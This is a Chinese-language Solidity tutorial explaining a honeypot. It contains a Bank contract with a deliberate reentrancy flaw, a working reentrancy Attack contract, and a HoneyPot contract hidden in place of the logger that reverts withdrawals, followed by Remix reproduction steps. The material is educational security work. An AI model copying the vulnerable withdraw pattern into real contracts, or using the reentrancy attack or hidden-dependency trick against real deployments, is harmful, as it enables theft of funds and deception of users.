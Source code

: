 # 75.Honeypot
Honeypot是一种用来捕捉黑客的陷阱。

## 漏洞
通过结合两个漏洞，重新进入攻击和隐藏恶意代码，我们可以构建一个合约来捕获恶意用户。


Bank 是一个调用 Logger 记录事件的合约。
Bank.withdraw() 存在重新进入攻击漏洞。
所以黑客试图从 Bank 中取走以太币。
但实际上，重新进入攻击漏洞是用来引诱黑客的。
通过在 Logger 的位置上放置 HoneyPot 并部署 Bank，这个合约就成为了黑客的陷阱。让我们看看发生了什么。

1. Alice 部署 HoneyPot
2. Alice 部署 Bank，并将 HoneyPot 的地址传递给它
3. Alice 往 Bank 中存入 1 个以太币。
4. Eve 发现 Bank.withdraw 中的重新进入攻击漏洞，并决定攻击它。
5. Eve 部署 Attack，并将 Bank 的地址传递给它
6. Eve 调用 Attack.attack()，但交易失败了。

发生了什么？
Eve 调用 Attack.attack()，并开始从 Bank 中提取以太币。
当最后一个 Bank.withdraw() 即将完成时，它调用 logger.log()。
logger.log() 调用 HoneyPot.log() 并抛出异常。交易失败了。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Bank {
    mapping(address => uint) public balances;
    Logger logger;

    constructor(Logger _logger) {
        logger = Logger(_logger);
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        logger.log(msg.sender, msg.value, "Deposit");
    }

    function withdraw(uint _amount) public {
        require(_amount <= balances[msg.sender], "Insufficient funds");

        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] -= _amount;

        logger.log(msg.sender, _amount, "Withdraw");
    }
}

contract Logger {
    event Log(address caller, uint amount, string action);

    function log(address _caller, uint _amount, string memory _action) public {
        emit Log(_caller, _amount, _action);
    }
}
```
黑客试图通过重入攻击来耗尽存储在银行中的以太币。
```solidity
contract Attack {
    Bank bank;

    constructor(Bank _bank) {
        bank = Bank(_bank);
    }

    fallback() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }

    function attack() public payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
让我们假设这段代码在一个单独的文件中，这样其他人就无法读取它。
```solidity
contract HoneyPot {
    function log(address _caller, uint _amount, string memory _action) public {
        if (equal(_action, "Withdraw")) {
            revert("It's a trap");
        }
    }

    // 使用keccak256比较字符串的函数
    function equal(string memory _a, string memory _b) public pure returns (bool) {
        return keccak256(abi.encode(_a)) == keccak256(abi.encode(_b));
    }
}
```

## remix验证
1. 部署 HoneyPot合约
![75-1.jpg](img/75-1.jpg)
2. 部署 Bank合约传入HoneyPot合约地址。并调用deposit函数存入1 eth
![75-2.jpg](img/75-2.jpg)
3. 部署Attack合约传入Bank合约地址。调用attack()函数攻击
![75-3.jpg](img/75-3.jpg)